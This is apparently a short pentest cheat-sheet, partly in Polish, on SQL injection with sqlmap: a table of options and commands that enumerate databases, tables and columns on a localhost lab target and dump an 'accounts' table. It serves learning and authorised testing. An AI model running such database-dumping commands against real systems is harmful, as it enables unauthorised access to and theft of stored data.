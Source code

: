 https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-with-sqlmap/

```bash
$ sqlmap -u "http://localhost:8081/?id=1"  
```

|                  |                               |
| ---------------- | ----------------------------- |
| `-r REQUESTFILE` | Load HTTP request from a file |
| `-p TESTPARAMETER`                                            | Testable parameter(s)                              |
| `--batch`                                                     | Never ask for user input, use the default behavior |
| `--hostname`<br>`--current-user`<br>`--current-db`<br>`--dbs` | to retrieve info about the database                |
| `--flush-session`                                             | Flush session files for current target             |
| `--dbms=DB`                                                   | prowide the web application's back-end database    |

```bash
## znajdowanie baz danych
$ sqlmap -u "http://localhost:8081/?id=1" --dbs

## znajdowanie tabel w bazie danych
$ sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables  

## znajdowanie kolumn tabeli
$ sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --columns   

## odczytywanie danych z tabeli
$ sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump 
```

# proxy dla sqlmap 
[[tools/proxy-serwer-http]]
[[tools/proxy-serwer-ws]]